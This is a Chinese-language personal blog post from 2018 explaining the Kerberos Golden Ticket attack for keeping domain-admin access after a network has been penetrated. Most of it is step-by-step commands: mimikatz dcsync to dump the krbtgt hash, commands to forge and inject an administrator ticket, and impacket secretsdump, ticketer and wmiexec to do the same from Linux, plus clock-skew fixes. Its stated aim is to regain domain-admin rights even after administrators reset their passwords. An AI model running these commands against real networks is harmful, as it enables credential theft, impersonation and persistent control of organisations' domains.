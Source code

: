 ```yaml
---
layout: post
title: Pass the Ticket——Golden Ticket
date: 2018-12-26 23:30:00
tags: 域渗透
categories: hack 
author: PythonPig
---
```

* content
{:toc}


### \#0x00 写在前面 
域渗透过程简单来说：搞定域内某机器—获取域管登录凭证—登录域控导出所有用户hash—完毕  
导出域管hash或明文密码后并不一定万事大吉，如果所有域管全部更改密码后我们之前的导出的hash和密码就没用了，如果我们还有域内机器普通用户的权限的话，可以通过本文的方法找回域管权限。今天主要聊一下在域渗透后期如何利用Kerberos认证过程中的问题来维持域权限。  

![golden ticket](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/golden%20ticket.jpg?raw=true)  
图片来源于:https://image.slidesharecdn.com



### \#0x01 原理简介
在Kerberos认证过程中，用户的Ticket都是由Kerberos用户krbtgt的密码Hash生成的，如果获得了krbtgt的密码hash，则可以伪造任意用户的Ticket，当然我们关心的是域管的Ticket。  
详细的Kerberos认证过程和Pass the Ticket的过程参见【参考】部分。  


### \#0x02 Golden Ticket利用之mimikatz

##### 一、获取伪造Ticket所需数据
伪造Ticket所需的数据主要有  
1、krbtgt用户的nt hash  
2、域SID   
3、域内机器普通用户权限  

krbtgt的hash值可以在域控上通过mimikatz获取，在域控上执行如下命令  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```
![get krbtgt hash](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/get%20krbtgt%20hash_1.jpg?raw=true)  

从上图中可以得到nt hash：30eefxxxxxxxxxxxxxxxxxxxxxxxcbc4e和域SID：S-1-5-21-xxxxxxxxx-xxxxxxxxxxx1-xxxxxxxxxxxxx  

##### 二、伪造Golden Ticket并导入——Pass the Ticket
使用非域管账户登录域内已控的机器，在该机器上伪造域管Ticket。  
1、首先查看下系统是否已有tgt  
```
mimikatz # kerberos::tgt
```
![have no tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20tgt.jpeg?raw=true) 
  
2、验证在没有tgt的情况下本地用户是否具有域管权限  
访问域内其他机器需要认证的共享文件  
![have no permission](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/have%20no%20permission_1.jpg?raw=true)  
没有访问的权限  

3、生成tgt  
这里以域domain_name 和拟伪造的域管AD_admin_user为例进行说明  
```
mimikatz # kerberos::golden /user:AD_admin_user /domain:domain_name /sid:S-1-5-21-168xxxxx-3676xxxxxx1-34xxxx0176 /krbtgt:30eef769c3xxxxxxxxxxxcbc4e /ticket:AD_admin_user.kiribi
```
命令执行完成后，将在本目录下生成文件AD_admin_user.kiribi  
![create tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/create%20tgt_1.jpg?raw=true)  

4、导入tgt 
``` 
mimikatz # kerberos::ptt AD_admin_user.kiribi
```
![import tgt](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20tgt_1.jpg?raw=true)  

5、查看导入是否成功  
```
mimikatz # kerberos::tgt
```
![import success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/import%20success_1.jpg?raw=true) 
导入成功  

6、尝试访问域内其他机器上的文件  
```
dir \\vas-xxxxxx\c$
```
![success](https://github.com/PythonPig/PythonPig.github.io/blob/master/images/Pass%20the%20Ticket%E2%80%94%E2%80%94Golden%20Ticket/success_1.jpg?raw=true) 
Pass the Ticket成功，可以以非域管账户执行域管命令，执行其他域管命令请参照【参考】  

### \#0x03 Golden Ticket利用之ticketer（跨平台利用）
在横向移动的过程中，使用mimikatz利用Golden Ticket时有以下限制：  
1、需要一台windows机器的权限且安装mimikatz  
2、使用mimikatz需要免杀  
在已控的可与域内主机（如域控）通信的linux机器上使用impacket的ticketer等工具可解决上面的问题。  

##### 一、需要的条件
* krbtgt account NT hash
* domain SID
* domain FQDN
* user to impersonate（一般选择域管）

用到的工具主要为impacket的ticketer.py  

##### 一、获取伪造Ticket所需数据
方法一（获取krbtgt hash）：  
```
secretsdump.py domainname/domain_admin_username@dc_ip -hashes domain_admin_username_lmhash:domain_admin_username_nthash -just-dc
```
方法二（获取krbtgt hash）：  
参见 [导出域内所有用户hash](https://pythonpig.github.io/2018/12/09/导出域内所有用户hash/)

方法三：  
```
mimikatz.exe "lsadump::dcsync /user:domain_name\krbtgt /domain:domain_name.com"
```

##### 二、伪造Golden Ticket
利用ticketer.py生成伪造的ticket  
```
ticketer.py -nthash krbtgt_account_NT_hash -domain-sid S-1-5-21-168xxxxxx-367xxxxxxx-3458xxxxx -domain domain_FQDN user_to_impersonate
``` 
如  
```
ticketer.py -nthash 11111111111111111111111111111 -domain-sid S-1-5-21-11111111-222222222-33333333 -domain testdomainname Administrator
```
执行后生成user_to_impersonate.ccache
##### 三、导入并利用
```
1、export KRB5CCNAME=/absolute_path/user_to_impersonate.ccache
2、wmiexec.py -no-pass -k domain_name/user_to_impersonate@dc_hostname_or_dc_ip -dc-ip dc_ip
```
impacket中的不少工具都支持上述方式利用Golden Ticket。  
注：因为利用Golden Ticket的这台linux机器并不是域内机器，与域控可能存在时间不同步的问题，一般当时间差大于5分钟时会发生"Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)"错误，解决办法如下：  
1、ntpdate dc_ip （与域控进行时间同步，域控一般作为ntp server）  
或  
2、获取域内主机或域控的时间,调整linux机器的时间与域控时间差在5分钟以内：date -s 20:08:00    

### \#0x04 参考
* [域渗透的金之钥匙](http://drops.wooyun.org/tips/9591)
* [域渗透——Pass The Ticket](http://drops.wooyun.org/tips/12159)
* [谈谈基于Kerberos的Windows Network Authentication[上篇]](http://www.cnblogs.com/artech/archive/2007/07/05/807492.html)
* [[原创]谈谈基于Kerberos的Windows Network Authentication - Part II](http://www.cnblogs.com/artech/archive/2007/07/07/809545.html)
* [敞开的地狱之门：Kerberos协议的滥用](https://www.freebuf.com/articles/system/45631.html)
* [How To Pass the Ticket Through SSH Tunnels](https://bluescreenofjeff.com/2017-05-23-how-to-pass-the-ticket-through-ssh-tunnels/)

